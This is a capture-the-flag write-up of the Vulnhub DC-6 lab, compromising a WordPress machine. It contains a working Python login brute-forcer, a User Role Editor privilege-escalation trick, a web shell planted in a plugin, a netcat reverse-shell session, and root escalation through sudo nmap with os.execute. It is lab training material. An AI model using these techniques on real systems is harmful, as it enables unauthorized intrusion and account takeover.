






# Information

- Name: DC-6
- Date Release: 26 Apr 2019
- Author: DCAU
- Series: DC
- Platform: Vulnhub
- Link: https://www.vulnhub.com/entry/dc-6,315/
- Difficulty: Begginer

# Write Up

## Enumeration
### Host Discovery
Host Discovery is performed using [arpScan](http://github.com/aalmeidar/Tools). In this lab, the machine ip is _10.0.2.24_

```Shell
sudo arpScan.py -m 2 -r 10.0.2.0/24
[*] 52:54:00:12:35:00 10.0.2.1
[*] 52:54:00:12:35:00 10.0.2.2
[*] 08:00:27:62:10:20 10.0.2.3
[*] 08:00:27:28:61:f5 10.0.2.24
```
> The author recommend edit _/etc/hosts_ and append : 10.0.2.23	wordy.

### Port Scanning 
Port Scanning is realized with [portScan](http://github.com/aalmeidar/Tools). The tool report that are two ports open:
```Shell
sudo portScanner.py -i 10.0.2.24
[└] Scanning Ports: 65535
[*] Port 22 (ssh) open
[*] Port 80 (http) open
```
### Banner Grabbing
- Port 22:
```Shell
nc -vn 10.0.2.24 22
(UNKNOWN) [10.0.2.24] 22 (ssh) open
SSH-2.0-OpenSSH_7.4p1 Debian-10+deb9u6
```
OpenSSS 7.4p1 is running on port 22.

- Port 80:
```Shell
nc -vn 10.0.2.24 80
(UNKNOWN) [10.0.2.24] 80 (http) open
test
HTTP/1.1 400 Bad Request
Date: Wed, 07 Sep 2022 16:44:44 GMT
Server: Apache/2.4.25 (Debian)
Content-Length: 301
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.25 (Debian) Server at 127.0.1.1 Port 80</address>
</body></html>
```
Apache 2.4.25 is running on port 80.

### Web
The web is a Wordpress, let's enumerate it:


- Version: You can see the version in meta tags. in this case, is 5.1.1


- Users: You can write a python script to bruteforce. The output when is a valid user or not its different. But let's do it later with bruteforcing passwords.

- Plugins: You can fuzz _/wp-content_ to enumerate plugins and themes.
```Console
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt -u http://wordy/ -t 100
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://wordy/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/07 18:56:42 Starting gobuster in directory enumeration mode
===============================================================
/wp-content/plugins/akismet/ (Status: 403) [Size: 307]
/wp-content/plugins/hello.php/ (Status: 500) [Size: 0]
/wp-content/plugins/hello.php (Status: 500) [Size: 0] 
/wp-content/plugins/user-role-editor/ (Status: 200) [Size: 0]
                                                             
===============================================================
2022/09/07 18:56:43 Finished
===============================================================
```
User-Role-Editor v4.2.5 is vulnerable to privilege escalation in wordpress.

Author give a clue:
> OK, this isn't really a clue as such, but more of some "we don't want to spend five years waiting for a certain process to finish" kind of advice for those who just want to get on with the job. cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt That should save you a few years. ;-)

So looks like bruteforcing the login _/wp-admin_.
## Exploitation

First and foremost, let's create the wordlist that author give us. The following is write a script to bruteforce the login. So, first we have to know the valid users and then the password. Usernames wordlist is names.txt of _Seclists_.

```Python
#!/usr/bin/env python

from pwn import *
import requests, sys, signal

url = "http://wordy/wp-login.php"
s = requests.session()

def def_handler(sig, frame):
    print("[!] Aborting...")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

def userBruteForce():
    with open("names.txt", "r", encoding = "ISO-8859-1") as f:
        for user in f.readlines():
            post_data = {'log':user,
                        'pwd':'test',
                        'wp-sumbit':'Log+In'}
            r = s.post(url, post_data)
            p1.status(f"Trying user {user}")
            if "Invalid username." not in r.text:
                print(f"[*] Valid username: {user}")
                passwordBruteForce(user)

def passwordBruteForce(user):
    with open("passwords.txt", "r") as f:
        for password in f.readlines():
            post_data = {'log':user,
                        'pwd':password,
                        'wp-sumbit':'Log+In'}
            r = s.post(url, post_data)
            p1.status(f"Trying user {user} with password {password}")
            if "The password you entered for the username" not in r.text and "The password field is empty" not in r.text:
                print(f"[*] Valid Credentials {user}:{password}")
                break

if __name__ == "__main__":
    p1 = log.progress("Brute Force")
    userBruteForce()
```
Let's execute it:

```Shell
sudo python WPbf.py
[◤] Brute Force: Trying user zylen
[*] Valid username: admin

[*] Valid username: graham

[*] Valid username: mark

[*] Valid Credentials mark
:helpdesk01

[*] Valid username: sarah
```


Now, we have to get admin perm. Let's try privilege escalation via plugin. 

The procedure is (https://vk9-sec.com/wordpress-plugin-user-role-editor-4-24-privilege-escalation/):
1. Go to Users - Your Profile
2. Capture web traffic using a proxy, I’d use BurpSuite, and then, click on Update Profile
3. Add &ure_other_roles=administrator to the end of the POST data, and then forward the request and follow the redirects.




So, now let's get a shell via plugin edition. For example, let's inject a shell in _hello.php_



Access to _wp-content/plugins/hello.php_ and get a shell.

```Console
nc -lvnp 1234 
listening on [any] 1234 ...
connect to [10.0.2.19] from (UNKNOWN) [10.0.2.24] 45806
Linux dc-6 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64 GNU/Linux
 03:48:34 up  1:34,  0 users,  load average: 0.00, 0.01, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ i
/bin/sh: 2: i: not found
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ script /dev/null -c /bin/bash
Script started, file is /dev/null
www-data@dc-6:/$ ^Z
[1]  + 15015 suspended  nc -lvnp 1234
➜  ~ stty raw -echo; fg
[1]  + 15015 continued  nc -lvnp 1234
                                     reset xterm
www-data@dc-6:/$ export TERM=xterm

```
## Privilege Escalation

Let's see _/home_:
```Console
www-data@dc-6:/$ cd /home
www-data@dc-6:/home$ ls -Ral
.:
total 24
drwxr-xr-x  6 root   root   4096 Apr 26  2019 .
drwxr-xr-x 22 root   root   4096 Apr 24  2019 ..
drwxr-xr-x  2 graham graham 4096 Apr 26  2019 graham
drwxr-xr-x  2 jens   jens   4096 Apr 26  2019 jens
drwxr-xr-x  3 mark   mark   4096 Apr 26  2019 mark
drwxr-xr-x  2 sarah  sarah  4096 Apr 24  2019 sarah

./graham:
...
...
... 

./jens:
total 28
drwxr-xr-x 2 jens jens 4096 Apr 26  2019 .
drwxr-xr-x 6 root root 4096 Apr 26  2019 ..
-rw------- 1 jens jens    5 Apr 26  2019 .bash_history
-rw-r--r-- 1 jens jens  220 Apr 24  2019 .bash_logout
-rw-r--r-- 1 jens jens 3526 Apr 24  2019 .bashrc
-rw-r--r-- 1 jens jens  675 Apr 24  2019 .profile
-rwxrwxr-x 1 jens devs   50 Apr 26  2019 backups.sh

./mark:
total 28
drwxr-xr-x 3 mark mark 4096 Apr 26  2019 .
drwxr-xr-x 6 root root 4096 Apr 26  2019 ..
-rw------- 1 mark mark    5 Apr 26  2019 .bash_history
-rw-r--r-- 1 mark mark  220 Apr 24  2019 .bash_logout
-rw-r--r-- 1 mark mark 3526 Apr 24  2019 .bashrc
-rw-r--r-- 1 mark mark  675 Apr 24  2019 .profile
drwxr-xr-x 2 mark mark 4096 Apr 26  2019 stuff

./mark/stuff:
total 12
drwxr-xr-x 2 mark mark 4096 Apr 26  2019 .
drwxr-xr-x 3 mark mark 4096 Apr 26  2019 ..
-rw-r--r-- 1 mark mark  241 Apr 26  2019 things-to-do.txt

./sarah:
...
...
```

In _/home/mark/stuff_ there is a interesting file with graham password:
```Console
www-data@dc-6:/home$ cat /home/mark/stuff/things-to-do.txt 
Things to do:

- Restore full functionality for the hyperdrive (need to speak to Jens)
- Buy present for Sarah's farewell party
- Add new user: graham - GSo7isUM1D4 - done
- Apply for the OSCP course
- Buy new laptop for Sarah's replacement
```

Graham can execute a script as jens, let's see it:
```Console
graham@dc-6:/home/jens$ ls -l
total 4
-rwxrwxr-x 1 jens devs 50 Apr 26  2019 backups.sh
graham@dc-6:/home/jens$ cat backups.sh 
#!/bin/bash
tar -czf backups.tar.gz /var/www/html
graham@dc-6:/home/jens$ id
uid=1001(graham) gid=1001(graham) groups=1001(graham),1005(devs)
```
You can write because you are in devs group. Get a bash appending it to the end:

```Console
graham@dc-6:/home/jens$ echo "/bin/bash" >> backups.sh 
graham@dc-6:/home/jens$ sudo -u jens ./backups.sh 
tar: Removing leading `/' from member names
jens@dc-6:~$ whoami
jens
jens@dc-6:~$ id
uid=1004(jens) gid=1004(jens) groups=1004(jens),1005(devs)
```

Jens can execute nmap as root, so let's be root:
```Console
jens@dc-6:~$ sudo -l
Matching Defaults entries for jens on dc-6:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jens may run the following commands on dc-6:
    (root) NOPASSWD: /usr/bin/nmap
jens@dc-6:~$ TF=test
jens@dc-6:~$ echo 'os.execute("/bin/bash")' > "$TF"
jens@dc-6:~$ sudo nmap --script=$TF

Starting Nmap 7.40 ( https://nmap.org ) at 2022-09-08 04:03 AEST
NSE: Warning: Loading 'test' -- the recommended file extension is '.nse'.
root@dc-6:/home/jens# uid=0(root) gid=0(root) groups=0(root)
root@dc-6:/home/jens# root
root@dc-6:/home/jens# root@dc-6:~# theflag.txt
root@dc-6:~# 

Yb        dP 888888 88     88         8888b.   dP"Yb  88b 88 888888 d8b 
 Yb  db  dP  88__   88     88          8I  Yb dP   Yb 88Yb88 88__   Y8P 
  YbdPYbdP   88""   88  .o 88  .o      8I  dY Yb   dP 88 Y88 88""   `"' 
   YP  YP    888888 88ood8 88ood8     8888Y"   YbodP  88  Y8 888888 (8) 


Congratulations!!!

Hope you enjoyed DC-6.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.

If you enjoyed this CTF, send me a tweet via @DCAU7.
```

